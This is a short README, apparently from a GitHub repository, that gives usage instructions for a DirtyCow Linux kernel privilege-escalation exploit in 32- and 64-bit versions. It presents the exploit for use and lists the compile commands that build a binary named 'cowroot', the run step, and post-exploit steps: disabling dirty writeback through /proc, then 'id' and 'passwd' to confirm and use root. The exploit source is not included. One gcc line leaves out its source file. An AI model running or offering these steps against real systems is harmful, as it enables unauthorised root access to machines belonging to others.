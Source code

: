 # DirtyCow
Dirtycow exploit for both 32 and 64-bit 

# Usage Example For 32 Bit

Compile -o = Output
* $ gcc dc32.c -o cowroot -pthread
OR
* $ gcc -o cowroot -pthread

Run
* $ ./cowroot
* $ echo 0 > /proc/sys/vm/dirty_writeback_centisecs
* id
* passwd

# Usage Example For 64 Bit

* $ gcc dc64.c -o cowroot -pthread
* $ ./cowroot
* $ echo 0 > /proc/sys/vm/dirty_writeback_centisecs
